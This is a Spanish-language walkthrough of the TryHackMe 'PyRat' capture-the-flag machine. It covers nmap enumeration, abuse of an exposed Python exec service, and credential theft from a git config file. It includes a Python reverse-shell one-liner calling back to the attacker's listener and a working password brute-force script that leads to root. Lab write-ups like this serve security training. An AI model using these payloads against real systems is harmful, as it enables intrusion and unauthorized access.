

# PyRat TryHackMe

Pyrat es una máquina boot-to-root enfocada en enumeración profunda, donde identificar servicios ocultos, rutas no evidentes y binarios mal configurados es clave para comprometer el sistema y escalar privilegios hasta root.

## Enumeración

Comenzamos enumerando los puertos abiertos en la maquina victima, utilizando la herramienta Nmap con algunas flags de reconocimiento

```bash
──(pirata㉿kali)-[~/CTF/THM/PyRat]
└─$sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv <IP> -oG allPorts
```
Las flags que configuramos en nmap son:  
* -p- Nos indica que se escanearan los 65535 puertos de Nmap
* --open Con esta flag filtramos por unicamente los puertos abiertos 
* -sS un escaneo de tipo SYN / SCAN 
* --min-rate 5000 Indicamos que seran un minimo de 5000 paquetes por segundo por lo que sera un escaneo rapido 
* -n No aplicara resolucion DNS puesto que para esta maquina no es nechttps://github.com/P1R4T4777/CTF-Walkthroughesario
* -Pn No realiza un ping antes de la conexion, nmap da por hecho que el host se encuentra activo 
* -vvv Los resultados los muestre en pantalla conforme los encuentre
* -oG Exporte los resultados que nos arroja en terminal a un formato Grepeable para poder procesarlo posteriormente de manera rapida 

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-06 22:48 CST
Initiating SYN Stealth Scan at 22:48
Scanning 10.81.153.195 [65535 ports]
Discovered open port 22/tcp on 10.81.153.195
Discovered open port 8000/tcp on 10.81.153.195
Completed SYN Stealth Scan at 22:49, 13.84s elapsed (65535 total ports)
Nmap scan report for 10.81.153.195
Host is up, received user-set (0.14s latency).
Scanned at 2026-02-06 22:48:58 CST for 14s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack ttl 62
8000/tcp open  http-alt syn-ack ttl 62

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.03 seconds
           Raw packets sent: 68159 (2.999MB) | Rcvd: 67867 (2.715MB)
```

Una vez que nmap nos muestra los resultados del escaneo identificaremos que:
* El puerto 22 se encuentra abierto ejecutando un servicio SSH
* El puerto 80 se encuentra abierto con lo que parece ser un servicio HTTP 

Lanzamos un escaneo mas agresivo que nos permita identificar los servicios en ejecucion 
 
```bash
┌──(pirata㉿kali)-[~/CTF/THM/PyRat]
└─$ sudo nmap -p22,8000 -sCV IP -oN targeted
```
Con esta flag -sCV le indicamos a Nmap que tambien realize una identificacion de servicios y versiones 

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-06 22:52 CST
Nmap scan report for 10.81.153.195
Host is up (0.14s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9a:72:51:ac:c5:73:37:8f:d0:43:d1:3c:e8:36:dc:f6 (RSA)
|   256 0c:f5:a3:2e:b9:02:44:a5:7d:3f:5e:4c:0d:36:77:a9 (ECDSA)
|_  256 26:71:65:f8:0e:0f:1a:9a:2b:79:d2:49:51:07:06:ba (ED25519)
8000/tcp open  http-alt SimpleHTTP/0.6 Python/3.11.2
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: SimpleHTTP/0.6 Python/3.11.2
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop: 
|     source code string cannot contain null bytes
|   FourOhFourRequest, LPDString, SIPOptions: 
|     invalid syntax (<string>, line 1)
|   GetRequest: 
|     name 'GET' is not defined
|   HTTPOptions, RTSPRequest: 
|     name 'OPTIONS' is not defined
|   Help: 
|_    name 'HELP' is not defined
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.95%I=7%D=2/6%Time=6986C51B%P=x86_64-pc-linux-gnu%r(Gen
SF:ericLines,1,"\n")%r(GetRequest,1A,"name\x20'GET'\x20is\x20not\x20define
SF:d\n")%r(X11Probe,2D,"source\x20code\x20string\x20cannot\x20contain\x20n
SF:ull\x20bytes\n")%r(FourOhFourRequest,22,"invalid\x20syntax\x20\(<string
SF:>,\x20line\x201\)\n")%r(Socks4,2D,"source\x20code\x20string\x20cannot\x
SF:20contain\x20null\x20bytes\n")%r(HTTPOptions,1E,"name\x20'OPTIONS'\x20i
SF:s\x20not\x20defined\n")%r(RTSPRequest,1E,"name\x20'OPTIONS'\x20is\x20no
SF:t\x20defined\n")%r(DNSVersionBindReqTCP,2D,"source\x20code\x20string\x2
SF:0cannot\x20contain\x20null\x20bytes\n")%r(DNSStatusRequestTCP,2D,"sourc
SF:e\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(Help,1B
SF:,"name\x20'HELP'\x20is\x20not\x20defined\n")%r(LPDString,22,"invalid\x2
SF:0syntax\x20\(<string>,\x20line\x201\)\n")%r(SIPOptions,22,"invalid\x20s
SF:yntax\x20\(<string>,\x20line\x201\)\n")%r(LANDesk-RC,2D,"source\x20code
SF:\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(NotesRPC,2D,"sou
SF:rce\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(JavaR
SF:MI,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n
SF:")%r(afp,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20b
SF:ytes\n")%r(giop,2D,"source\x20code\x20string\x20cannot\x20contain\x20nu
SF:ll\x20bytes\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 181.15 seconds

``` 

Este escaneo de Nmap ya nos arroja muchos datos interesantes como:
- Tenemos un servicio OpenSSH 8.2p1 en ejecucion en el puerto 22 
- En el puerto 8000 tenemos un servidor SimpleHTTP/0.6 que se ejecuta en Python/3.11.2
- http-open-proxy: Proxy might be redirecting requests: Nmap detecta que el servicio HTTP podria esta funcionando como un proxy abierto y estar reenviando a otros destinos sin autenticación 
- http-server-header: SimpleHTTP/0.6 Python/3.11.2: Es un servidor que funciona con Python, generalmente usado para pruebas, compartir archivos en red de manera rapida, etc

Pero la seccion que realmente debemos prestar atencion es: fingerprint-strings
Aqui Nmap envia distintos tipos de trafico para ver como se comporta el servicio y el servidor ya comienza a arrojar errores 

```bash
fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop: 
|     source code string cannot contain null bytes
|   FourOhFourRequest, LPDString, SIPOptions: 
|     invalid syntax (<string>, line 1)
|   GetRequest: 
|     name 'GET' is not defined
|   HTTPOptions, RTSPRequest: 
|     name 'OPTIONS' is not defined
|   Help: 
|_    name 'HELP' is not defined
```
En esta seccion podemos observar algunos mensajes que nos devuelve, el primero de ellos *source code string cannot contain null bytes*, este es un error tipico de python cuando 

- Intentamos procesar datos binarios
- El programa espera texto y llega un byte

Por lo que podemos definir que si bien esta hecho en python, no procesa de manera correcta la entrada 

Tambien vemos un mensaje *invalid syntax (<string>, line 1)* esto pasa cuand Nmap envia mensajes como 404, LDP, etc y el codigo intento procesarlas como codigo python
Este error aparece cuando se intenta ejecutar algo como eval(input) o exec(input)

Con base en estos hayazgos nos conectaremos con NC al servidor python e intentaremos ejecutar codigo python de manera directa

```bash
┌──(pirata㉿kali)-[~/CTF/THM/PyRat]
└─$ nc 10.81.153.195 8000  
```

Y nos mostrara lo siguiente al ejecutar codigo python
```bash
┌──(pirata㉿kali)-[~/CTF/THM/PyRat]
└─$ nc 10.81.153.195 8000                              
print(1+1)
2
```
Por lo que confirmamos que se esta ejecutando codigo python directamente en el servicio expuesto 

## FootHold
Haciendo uso de la pagina https://www.revshells.com/
Generaremos un reverse shell con la Opcion Python2 y solo copiaremos el fragmento necesario para colocarlo de manera directa

```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MI IP",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```
Antes de ejecutar el comando en la sesion NC con la que validamos la ejecucion de comandos, nos ponemos en escucha con otra sesion de NC en el puerto 443

```bash
┌──(pirata㉿kali)-[~/CTF/THM/PyRat]
└─$ sudo nc -nlvp 443                                
[sudo] contraseña para pirata: 
listening on [any] 443 ...
```

Ahora en nuestra sesion de NC conectados al puerto 8000 de la maquina victima ejecutamos la reverse shell 
```bash
──(pirata㉿kali)-[~/CTF/THM/PyRat]
└─$ nc 10.81.153.195 8000                              
print(1+1)
2

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MI IP",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

Y obtendremos la conexion a nuestra sesion en escucha 

```bash
┌──(pirata㉿kali)-[~/CTF/THM/PyRat]
└─$ sudo nc -nlvp 443                                
[sudo] contraseña para pirata: 
listening on [any] 443 ...
connect to [192.168.165.40] from (UNKNOWN) [10.81.153.195] 46332
$ 
```

Ahora solo necesitamos aplicar el tratamiento para la TTY y obtener una shell mas interactiva, para poder usar los atajos del teclado como CTRL + C con los comandos 

```bash
export TERM=xterm
script /dev/null -c bash
```

```bash
┌──(pirata㉿kali)-[~/CTF/THM/PyRat]
└─$ sudo nc -nlvp 443                                
[sudo] contraseña para pirata: 
listening on [any] 443 ...
connect to [192.168.165.40] from (UNKNOWN) [10.81.153.195] 46332
$ export TERM=xterm
export TERM=xterm
$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
bash: /root/.bashrc: Permission denied
www-data@ip-10-81-153-195:~$
```

Llegados a este punto damos Ctrl + Z y colocamos 
```bash
stty raw -echo; fg
reset xterm
```

y tendremos una shell totalmente operativa 
```bash
┌──(pirata㉿kali)-[~/CTF/THM/PyRat]
└─$ sudo nc -nlvp 443                                
[sudo] contraseña para pirata: 
listening on [any] 443 ...
connect to [192.168.165.40] from (UNKNOWN) [10.81.153.195] 46332
$ export TERM=xterm
export TERM=xterm
$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
bash: /root/.bashrc: Permission denied
www-data@ip-10-81-153-195:~$ ^Z
zsh: suspended  sudo nc -nlvp 443
                                                                                                                                                     
┌──(pirata㉿kali)-[~/CTF/THM/PyRat]
└─$ stty raw -echo;fg
[1]  + continued  sudo nc -nlvp 443
                                   reset xterm
```

Ahora procedemos a enlistar los puertos abiertos en la maquina victima 
```bash
www-data@ip-10-81-153-195:~$ netstat -tulnp
```

Y nos mostrara los siguientes puertos 
```bash
www-data@ip-10-81-153-195:~$ netstat -tulnp
(No info could be read for "-p": geteuid()=33 but you should be root.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 ::1:25                  :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.81.153.195:68        0.0.0.0:*                           -  
```
Podemos observar que se cuenta con un puerto 25 habilitado de manera interna, este puerto esta asociado a SMTP, por lo que nos conectamos a el para poder enumerarlo con el uso de NC
```bash
www-data@ip-10-81-153-195:~$ nc 127.0.0.1 25
220 ubuntuserver.localdomain ESMTP Postfix (Ubuntu)
```

Con esto podemos confirmar que:
- Codigo 220 Service Ready, el servicio esta activo y aceptando conexiones

Una vez confirmado esto podemos deducir que hay posibles correos en la carpeta /mail 
```bash
www-data@ip-10-81-153-195:/$ cd var/mail/
www-data@ip-10-81-153-195:/var/mail$ ls
root  think  www-data
www-data@ip-10-81-153-195:/var/mail$
```
Podemos observar 3 archivos, abrimos el think y nos mostrara lo siguiente 
```bash
www-data@ip-10-81-153-195:/var/mail$ cat think 
From root@pyrat  Thu Jun 15 09:08:55 2023
Return-Path: <root@pyrat>
X-Original-To: think@pyrat
Delivered-To: think@pyrat
Received: by pyrat.localdomain (Postfix, from userid 0)
        id 2E4312141; Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
Subject: Hello
To: <think@pyrat>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20230615090855.2E4312141@pyrat.localdomain>
Date: Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
From: Dbile Admen <root@pyrat>

Hello jose, I wanted to tell you that i have installed the RAT you posted on your GitHub page, i'll test it tonight so don't be scared if you see it running. Regards, Dbile Admen
```

Si leemos el correo se hace mencion a un programa RAT alojado en un repositorio GitHub de una persona llamada Jose, rastreamos el proceso del rat
```bash
www-data@ip-10-81-153-195:/var/mail$ ps aux | grep -i rat
root          15  0.0  0.0      0     0 ?        S    04:46   0:00 [migration/0]
root          21  0.0  0.0      0     0 ?        S    04:46   0:00 [migration/1]
root         734  0.0  0.0   2616   596 ?        Ss   04:47   0:00 /bin/sh -c python3 /root/pyrat.py 2>/dev/null
root         735  0.0  0.7  21872 14672 ?        S    04:47   0:00 python3 /root/pyrat.py
root         765  0.0  0.6 980464 12592 ?        Sl   04:47   0:00 python3 /root/pyrat.py
www-data    1873  0.0  0.6  22256 12584 ?        S    05:04   0:00 python3 /root/pyrat.py
www-data    1991  0.0  0.0   6440   660 pts/1    S+   05:27   0:00 grep -i rat
```
Podemos observar que se llama *pyrat.py*, con esto podemos buscar el repositorio GitHub asociado al RAT https://github.com/josemlwdf/PyRAT



Si bajamos un poco al README.md podremos ver un poco de las funciones, lo que nos interesa son los comandos que se pueden ejecutar por medio del RAT
```bash
Admin: To access the admin functionality, type admin and press Enter. You will be prompted to enter a password. Enter the password and press Enter. If the password is correct, you will see the message "Welcome Admin!!! Type 'shell' to begin". You can then proceed to use the shell functionality.

Shell: To access the shell functionality, type shell and press Enter. This will spawn a shell on the server, allowing you to execute commands. You can enter any valid shell command, and the output will be displayed on your nc session.

Python Interactive: To execute Python commands on the server, simply send them, and they will be executed using the exec function.
```

Pero si este repositorio se descargo directamente podemos buscar en las carpetas del sistema o usar linpeas para poder identificar donde se clono por primera vez, en este caso en la carpeta OPT/DEV
```bash
www-data@ip-10-81-153-195:/var/mail$ cd /opt/
www-data@ip-10-81-153-195:/opt$ ls -la
total 12
drwxr-xr-x  3 root  root  4096 Jun 21  2023 .
drwxr-xr-x 18 root  root  4096 Feb  7 04:47 ..
drwxrwxr-x  3 think think 4096 Jun 21  2023 dev
www-data@ip-10-81-153-195:/opt$ cd dev
www-data@ip-10-81-153-195:/opt/dev$ ls -la
total 12
drwxrwxr-x 3 think think 4096 Jun 21  2023 .
drwxr-xr-x 3 root  root  4096 Jun 21  2023 ..
drwxrwxr-x 8 think think 4096 Jun 21  2023 .git
www-data@ip-10-81-153-195:/opt/dev$ 
```
Y ya podemos observar la carpeta git, por lo que verificamos su archivo de configuración 
```bash
www-data@ip-10-81-153-195:/opt/dev$ cat .git/config 
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = *****************
www-data@ip-10-81-153-195:/opt/dev$ 

```
Con esto logramos identificar la contraseña del usuario Think por lo que escalamos a ser este usuario

```bash
www-data@ip-10-81-153-195:/opt/dev$ su think
Password: 
think@ip-10-81-153-195:/opt/dev$
```

Ahora ya podemos obtener la flag 
```bash
think@ip-10-81-153-195:/opt/dev$ cd /home/think/
think@ip-10-81-153-195:~$ cat user.txt 
**CENSORED**
think@ip-10-81-153-195:~$
```

## Escalado de Privilegios

Regresamos a la carpeta /opt/dev y ahora verificamos el estado del repositorio, para identificar archivos eliminados o modificaciones ralizadas 

```bash
think@ip-10-81-153-195:/opt/dev$ git status
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    pyrat.py.old

no changes added to commit (use "git add" and/or "git commit -a")
```
Veremos que hay un archivo eliminado, procedemos a recuperarlo 

```bash
think@ip-10-81-153-195:/opt/dev$ git restore pyrat.py.old
think@ip-10-81-153-195:/opt/dev$
```
Ahora lo abrimos en busqueda de la contraseña, pero solo encontraremos el siguiente fragmento 
```bash
think@ip-10-81-153-195:/opt/dev$ cat pyrat.py.old 
...............................................

def switch_case(client_socket, data):
    if data == 'some_endpoint':
        get_this_enpoint(client_socket)
    else:
        # Check socket is admin and downgrade if is not aprooved
        uid = os.getuid()
        if (uid == 0):
            change_uid()

        if data == 'shell':
            shell(client_socket)
        else:
            exec_python(client_socket, data)

def shell(client_socket):
    try:
        import pty
        os.dup2(client_socket.fileno(), 0)
        os.dup2(client_socket.fileno(), 1)
        os.dup2(client_socket.fileno(), 2)
        pty.spawn("/bin/sh")
    except Exception as e:
        send_data(client_socket, e

...............................................
```
Por lo que no tenemos la contraseña como tal, creamos un script que nos permita iterar en el servicio y obtener la contraseña

```python

import socket

target_ip = "10.81.153.195" 
target_port = 8000        
password_wordlist = "passwords.txt" 

def connect_and_send_password(password):
    try:
        client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client_socket.connect((target_ip, target_port))
        client_socket.sendall(b'admin\n')

        response = client_socket.recv(1024).decode()
        print(f"Server response after sending 'admin': {response}")

        if "Password:" in response:
            print(f"Trying password: {password}")
            client_socket.sendall(password.encode() + b"\n")

            response = client_socket.recv(1024).decode()

            if "success" in response.lower() or "admin" in response.lower():
                print(f"Server response for password '{password}': {response}")
                return True
            else:
                print(f"Password '{password}' is incorrect or no response.")

        return False

    except Exception as e:
        print(f"Error: {e}")
        return False

    finally:
        client_socket.close()

def fuzz_passwords():
    with open(password_wordlist, "r", encoding="latin-1") as file: 
        passwords = file.readlines()

    for password in passwords:
        password = password.strip()

        if connect_and_send_password(password):
            print(f"Correct password found: {password}")
            break
        else:
            print(f"Password {password} was incorrect. Reconnecting...")

if __name__ == "__main__":
    fuzz_passwords()

```
Lo ejecutamos y obtendremos la contraseña 
```bash
┌──(pirata㉿kali)-[~/CTF/THM/PyRat]
└─$ python3 fuzz.py
Server response after sending 'admin': Password:

Trying password: password
Password 'password' is incorrect or no response.
Password password was incorrect. Reconnecting...
Server response after sending 'admin': Password:

Trying password: test
Password 'test' is incorrect or no response.
Password test was incorrect. Reconnecting...
Server response after sending 'admin': Password:

Trying password: prueba
Password 'prueba' is incorrect or no response.
Password prueba was incorrect. Reconnecting...
Server response after sending 'admin': Password:

Trying password: pass
Password 'pass' is incorrect or no response.
Password pass was incorrect. Reconnecting...
Server response after sending 'admin': Password:

Trying password: 1234
Password '1234' is incorrect or no response.
Password 1234 was incorrect. Reconnecting...
Server response after sending 'admin': Password:

Trying password: **CENSORED**
Server response for password '**CENSORED**': Welcome Admin!!! Type "shell" to begin

Correct password found: **CENSORED**
```
Por lo que ahora nos podremos conectar correctamente con una nueva sesion de NC y seremos root

```bash
┌──(pirata㉿kali)-[~/CTF/THM/PyRat]
└─$ nc 10.81.153.195 8000
admin
Password:
**CENSORED**
Welcome Admin!!! Type "shell" to begin
shell
# whoami
whoami
root
```
Y podremos ver la flag 
```bash
# cat /root/root.txt
cat /root/root.txt
***CENSORED***
# 
```
Hemos rooteado la maquina PyRAT